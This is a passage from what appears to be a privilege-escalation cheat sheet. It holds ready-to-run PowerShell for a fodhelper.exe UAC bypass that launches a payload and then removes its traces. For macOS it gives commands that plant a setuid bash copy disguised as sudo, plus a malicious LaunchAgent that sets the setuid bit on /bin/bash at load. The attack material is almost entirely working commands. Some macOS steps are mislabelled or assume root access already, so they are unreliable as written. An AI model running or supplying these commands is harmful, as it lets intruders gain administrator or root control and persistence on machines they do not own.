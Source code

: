 #### Manual UAC Bypass
```powershell
# fodhelper.exe bypass
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd /c start C:\path\to\payload.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"

# Cleanup
Remove-Item "HKCU:\Software\Classes\ms-settings" -Recurse -Force
```

## macOS Privilege Escalation

### macOS-Specific Techniques

#### SUDO TCC Bypass
```bash
# Check TCC database
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db "SELECT * FROM access;"

# Synthetic.conf abuse (if writable)
echo -e "usr\tlocal/bin" >> /etc/synthetic.conf
/usr/sbin/synthetic_verify

# Create malicious binary in new path
mkdir -p /usr/local/bin
cp /bin/bash /usr/local/bin/sudo
chmod +s /usr/local/bin/sudo
```

#### Launch Agents/Daemons Exploitation
```bash
# Check writable launch agent directories
find /Library/LaunchAgents -writable 2>/dev/null
find /Library/LaunchDaemons -writable 2>/dev/null
find ~/Library/LaunchAgents -writable 2>/dev/null

# Create malicious launch agent
cat << 'EOF' > ~/Library/LaunchAgents/com.malicious.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.malicious</string>
    <key>ProgramArguments</key>
    <array>
        <string>/bin/bash</string>
        <string>-c</string>
        <string>chmod +s /bin/bash</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
EOF

# Load the agent
launchctl load ~/Library/LaunchAgents/com.malicious.plist
```